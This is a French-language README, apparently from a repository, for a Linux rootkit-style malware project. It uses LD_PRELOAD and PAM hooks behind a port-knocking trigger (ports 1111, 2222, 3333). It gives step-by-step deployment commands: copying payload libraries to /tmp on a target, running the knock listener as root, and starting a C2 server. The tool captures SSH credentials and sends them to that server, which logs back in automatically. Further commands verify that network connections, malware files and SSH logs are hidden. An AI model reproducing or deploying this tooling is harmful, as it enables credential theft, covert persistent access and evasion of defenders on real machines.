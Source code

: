 🛠️ README : Malware avec LD_PRELOAD & Port Knocking

📌 Introduction
Ce projet implémente un malware furtif exploitant LD_PRELOAD et PAM (Pluggable Authentication Modules) pour capturer les identifiants SSH et masquer sa présence sur la machine cible.

Le malware est activé via un mécanisme de Port Knocking nécessitant une séquence secrète de frappes sur les ports 1111, 2222 et 3333. Une fois activé, il intercepte les connexions SSH, récupère les identifiants et établit une connexion ssh automatique avec un serveur C2.

🔹 Fonctionnalités
    Port Knocking : Activation secrète du malware en écoutant sur 3 ports.
    Interception des identifiants SSH avec PAM.
    Masquage des connexions réseau via hide_connections.so.
    Masquage des fichiers malveillants via hide_files.so.
    Suppression et blocage des logs via hide_logs.so.
    Connexion ssh automatique sur la cible depuis serveur C2 après interception des identifiants.

📂 Installation & Exécution
#  1- Configuration des IPs
    Avant de compiler, assurez-vous de configurer les IP correctes dans les fichiers malware.c et server.c :
```
#define C2_IP "192.168.18.128"  // IP du serveur C2
#define TARGET_IP "192.168.18.130"  // IP de la machine cible

```

# 2- Compilation du projet
Sur la machine serveur C2, utilisez make pour compiler tous les fichiers 
```
make 

```
Cela génère les exécutables suivants :
*   server
*   port_knock
*   malware.so
*   hide_connections.so
*   hide_files.so
*   hide_logs.so

# 3-  Transfert des fichiers vers la machine cible
Transférez les fichiers générés (sauf server) vers /tmp/ sur la machine cible :
```
scp port_knock malware.so hide_connections.so hide_files.so hide_logs.so user@192.168.18.130:/tmp

```
# 4-  Préparation de la machine cible
Sur la machine cible, désactivez SSH et préparez l’environnement :
```
sudo systemctl stop ssh
sudo mkdir -p /usr/sbin/sshd

```

# 5- Lancement du Port Knocking
Sur la machine cible, exécutez port_knock en mode root dans le dossier /tmp:
```
sudo ./port_knock
```

# 6- Lancement du serveur C2
Sur la machine serveur C2 :
```
./server
```
Le serveur attend la frappe secrète des ports pour activer le malware.

# 7- Activation automatique du malware
Lorsque le C2 envoie des paquets aux ports 1111, 2222 et 3333, la machine cible détecte la séquence et démarre le malware avec LD_PRELOAD(malware.so).

# 8- Connexion SSH automatique & interception
*   Après activation, la machine cible attend une connexion SSH.
*   Lorsqu’un utilisateur se connecte en SSH, les identifiants sont interceptés et envoyés au serveur C2.
*   Le serveur C2 utilise ces identifiants pour se connecter automatiquement à la machine cible.
*   Un fichier credentials.log est créé à la racine du serveur avec les identifiants capturés.

# 9- Tests & Vérifications
Masquer les connexions réseau
Sur la machine cible, exécutez :
```
sudo LD_PRELOAD=/tmp/hide_connections.so netstat -tulnp
```
    => Les ports 1111, 2222 et 3333 doivent être invisibles.

# 10- Masquer les fichiers malveillants
Sur la machine cible, exécutez :
```
sudo LD_PRELOAD=/tmp/hide_files.so ls -la /tmp
```
    => Les fichiers du malware (malware.so, hide_*.so) ne doivent pas apparaître.

# 11- Masquer les logs
Sur la machine cible, exécutez :
```
sudo LD_PRELOAD=/tmp/hide_logs.so journalctl -xe
```
    => Les logs liés aux connexions SSH ne doivent plus apparaître.

# /!\######## Problème avec la branche DEV_USER_NON_ROOT
Une tentative a été faite pour exécuter port_knock sans être root, mais cela a posé des problèmes de clés SSH.

Même en copiant correctement les clés dans /tmp/ssh, l’authentification ne fonctionnait pas.


